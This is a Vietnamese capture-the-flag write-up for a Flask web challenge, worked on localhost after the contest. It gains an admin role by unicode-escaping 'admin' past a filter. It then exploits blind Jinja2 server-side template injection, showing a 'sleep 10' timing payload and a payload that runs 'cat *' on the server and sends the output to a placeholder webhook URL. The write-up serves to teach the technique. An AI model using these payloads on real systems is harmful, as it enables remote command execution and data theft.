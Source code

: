 # Đề bài:

![Screenshot 2024-11-08 171245](https://github.com/user-attachments/assets/3eda7452-5bbe-4af0-9e87-d3fab49c075d)

# Walkthrough:
- Do writeup này được viết khi giải đã kết thúc nên chúng ta sẽ làm trên localhost
### Step 1: Lấy role admin:
- Chúng ta sẽ phải vào register để đăng kí tài khoản trước:
  
![Screenshot 2024-11-08 171944](https://github.com/user-attachments/assets/a4684073-9cf3-4201-a183-249d70733f9f)

- Tiến hành đăng kí tài khoản xong check proxy ta có:

![Screenshot 2024-11-08 173005](https://github.com/user-attachments/assets/f6b198f3-125e-4679-8c13-7a7b9ba32331)

- Vậy nên ta chỉ cần đổi role thành admin là có quyền admin, tuy nhiên đoạn code này đã filter "admin" lại, vậy thì chúng ta sẽ phải mã hóa chữ admin để bypass
- Ở đây ta xài dạng unicode của chữ admin là: \u0061\u0064\u006d\u0069\u006e
![Screenshot 2024-11-08 173251](https://github.com/user-attachments/assets/ca9c264b-73ae-4edc-83e3-a665727374eb)

- Vậy là ta đã có được role admin
### Step 2: Blind SSTI:
- Sau khi đăng nhập thành công, ta vào render và sửa 1 số phần đề phù hợp với 1 request POST hợp lệ(Đôi http method, thêm content type, thêm value):
![Screenshot 2024-11-08 173716](https://github.com/user-attachments/assets/9d545ee4-538d-4fc8-b692-d6f57b7a8b9b)

```
    data = request.get_json()
    template = data.get("template")
    rendered_template = render_template_string(template)
```
- Đây chắc chắn là vuln ssti và khi gửi thành công, server trả vể là done => blind ssti
- Để kiếm chứng hãy ốp payload: ```{{ cycler.__init__.__globals__.os.popen('sleep 10').read() }}``` vô và kiểm chứng
![Screenshot 2024-11-08 174110](https://github.com/user-attachments/assets/bcc04e4c-74f7-45c9-ae58-450c4398f192)
- Thời gian server trả kết quả là 10 229 milis, tức là hơn 10s 1 xíu => Confirm là inject
- Cách làm là ta sẽ tìm cách chuyển kết quả của câu lệnh sang trang webhook
- Payload:
  ```
  url_for.__globals__['__builtins__']['__import__']('urllib2').urlopen('https://123/?flag=' + url_for.__globals__['os'].popen('cat * | grep \"ISIT\"').read())
  ```
- Flag sẽ được in ra ở respone
![Screenshot 2024-11-08 183042](https://github.com/user-attachments/assets/26375ac7-7317-40c6-9a8b-7517f9f0a9c6)
